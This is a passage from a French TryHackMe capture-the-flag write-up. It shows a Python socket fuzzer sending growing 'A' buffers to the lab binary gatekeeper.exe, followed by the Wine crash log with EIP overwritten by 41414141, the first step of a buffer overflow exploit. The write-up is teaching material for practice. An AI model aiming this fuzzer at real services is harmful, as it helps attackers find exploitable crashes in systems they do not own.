 Dans l'autre sens on remarque qu'il affiche les octets reçu et émit.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat fuzz.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '127.0.0.1'
port = 31337
buffer = ['A']
counter = 100

while len(buffer) < 10:
 buffer.append('A'*counter)
 counter=counter+100
try:
 for string in buffer:
  print '[+] Sending %s bytes...' % len(string)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect((address,port))
  s.send(string + '\r\n')
  s.recv(1024)
  print '[+] Done'
except:
  print '[!] Unable to connect to the application. You may have crashed it.'
  sys.exit(0)
finally:
 s.close()
```

On fabrique un fuzzer pour voire jusqu'a quand le gatekeeper.exe plante.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python fuzz.py 
[+] Sending 1 bytes...
[+] Done
[+] Sending 100 bytes...
[+] Done
[+] Sending 200 bytes...
```

On voit que le programme crash vers 200 octets.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wine gatekeeper.exe 
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 3
Bytes sent: 12
Client disconnected.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 102
Bytes sent: 111
Received connection from remote host.
Client disconnected.
Connection handed off to handler thread.
Bytes received: 202
send failed: 10009
wine: Unhandled page fault on read access to 41414141 at address 41414141 (thread 002c), starting debugger...
002c:err:seh:start_debugger Couldn't start debugger L"winedbg --auto 8 56" (2)
Read the Wine Developers Guide on how to set up winedbg or another debugger

```